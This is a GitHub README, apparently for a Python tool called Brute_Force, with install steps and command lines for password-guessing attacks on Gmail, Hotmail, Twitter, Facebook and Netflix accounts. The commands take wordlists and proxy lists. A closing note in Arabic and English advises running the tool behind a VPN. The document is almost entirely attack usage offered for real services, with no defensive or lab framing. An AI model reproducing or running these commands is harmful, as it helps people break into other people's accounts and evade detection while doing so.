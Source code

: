 # Brute_Force
![alt text](https://1.bp.blogspot.com/-oPEVZN0ymsc/XS59nlfrrgI/AAAAAAAAPmI/5TsU1GjCzsE32ognWuV1xI-5jUvLjCkdgCLcBGAs/s1600/Brute_Force_1.png)
![alt text](https://1.bp.blogspot.com/-SIeGPGxLUWQ/XS59nkXfYEI/AAAAAAAAPmM/P0-rKgkEjm0iFTrhpwhxBAV7vAKAo0KPQCLcBGAs/s1600/Brute_Force_2.png)
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)

## install :
```bash
sudo apt install python3 python3-pip

pip install proxylist

pip install mechanize
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```



